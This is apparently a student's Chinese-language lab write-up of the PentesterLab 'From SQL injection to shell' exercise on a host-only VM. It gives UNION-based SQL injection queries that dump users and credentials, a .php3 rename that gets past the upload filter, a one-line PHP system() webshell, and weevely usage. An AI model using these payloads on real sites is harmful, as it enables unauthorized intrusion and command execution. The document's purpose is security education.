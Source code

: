 # chap0x07 从SQL注入到Shell

----------

## 实验目的
* 在基于PHP的网站中使用SQL注入来获取对管理页面的访问权限
* 利用获取的权限在服务器上执行代码
## 实验环境
* 客户端
	<pre>
	名称：Client
	网卡：eth1(Host-Only 网络)
	IP：192.168.56.102
	</pre>
* 服务端
	<pre>
	名称：Server
	网卡：eth0(Host-Only 网络)
	IP：192.168.56.101
	</pre>
## 实验过程
* 检测网站是由哪种语言编写
	* Server在线状态下，Client的Firefox浏览器中打`inspect element`然后访问地址`192.168.56.101`,在Network栏检查Response headers的X-Powered-By字段。
	* 结果：网站基于PHP编写
	* ![](image/PHP.png) 
* 检测是否可进行SQL注入
	* 通过SQL查询语句返回的错误提示信息检测网站是否可进行SQL注入
	* 访问`192.168.56.101/cat.php?id=num`,num为不同的数字时返回的结果如下
	* ![](image/id1.png)
	* ![](image/id2.png)
	* ![](image/id1_.png)
	* 输入`id=2-1`时仍返回id=1时的页面，说明URL中提供的参数被当作整数进行SQL查询，且允许用户进行基本的数学运算。在输入`192.168.56.101/cat.php?id=2-1'`时引起了SQL语法错误，说明服务端对用户的输入没有做处理进行了SQL查询，因此可以将此处作为一个注入点。
* 尝试进行SQL注入
	* 查询语句的开头不能由客户直接修改，因为它存在于web端的PHP代码中，但是我们可以使用`union`语句来构造查询语句的结尾。要使用`UNION SELECT`并且能让服务器正确返回查询结果，而不是触发错误，首先要通过`order by`语句找到select语句的查询结果返回了多少列，发现当URL=`\cat.php?id=2 order by 5`时发生错误：
	* ![](image/order.png) 
	* 或者可以使用`/cat.php?id=2 union select 1,2,3,4`找到select语句的查询结果返回了多少列，因为只有当union前后查询结果返回的列数相同时才不会触发错误。使用这种方式查询时发现网站对union后面的查询语句返回结果是`picture:2`说明第二列是作为图片名输出的。那么可以将需要的查询结果放到第二列来显示到网页。
	* ![](image/select.png)
	* 现在已经知道SQL查询后返回的结果有4列，使用查询语句` UNION SELECT 1,table_name,3,4 FROME information_schema.tables`即可返回数据库中所有的table。` UNION SELECT 1,column_name,3,4 FROME information_schema.columns`用于返回数据库中所有的列。
	* ![](image/union1.png)
	* 但是我们需要的是每一列对应的表。因此需要使用`concat`函数，将两个字符串连接为一个字符串。查询语句为`1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`。返回的结果显示了数据库中每一列对应的表。
	* ![](image/union2.png)
	* 在众多返回结果中发现users表，其对应的列名有id,login,password三个。
	* ![](image/users.png)
	* 现在开始对users表进行信息筛选。发现数据库对password进行了加密，通过浏览器解密得password:P4ssw0rd.
	* ![](image/admin.png)
	* 现在我们获得了网站管理员的登录名和密码，相当于获得了管理页面的访问权限。接下来就是如何上传webshell并执行。
	* ![](image/success.png)
* 尝试上传webshell并执行
	* 先在本地编写PHP代码并保存为shell.php文件,然后利用网站的上传功能上传此文件。发现上传失败，网站对PHP文件的上传进行了限制。将文件重命名为shell.php3，上传成功。
	<code>code：
	<?php
	  system($_GET['cmd']);
	?></code>
	* ![](image/upload_php.png)
	* 通过浏览器的网页编辑功能找到上传的shell.php3在web服务器端的保存位置，位置为`admin/uploads/shell.php3`
	* ![](image/img_src.png)
	* 现在开始尝试执行上传的webshell。返回结果是web服务器当前内核，Linux。至此webshell成功执行。
	* ![](image/webserver.png)
* 高级webshell
	* 使用kali自带的工具`weevely`
	* 用法
		* `weevely generate <password> <path>`,生成webshell
		* 将生成的webshell上传至网站
		* `weevely <URL> <password> [cmd]`,用weevely与web端建立连接
		* ![](image/weevely.png)
## 结尾
* 参考资料[https://pentesterlab.com/exercises/from_sqli_to_shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
* 参考同学作业[https://github.com/CUCCS/2018-NS-Public-TheMasterOfMagic](https://github.com/CUCCS/2018-NS-Public-TheMasterOfMagic/tree/ns-chap0x07)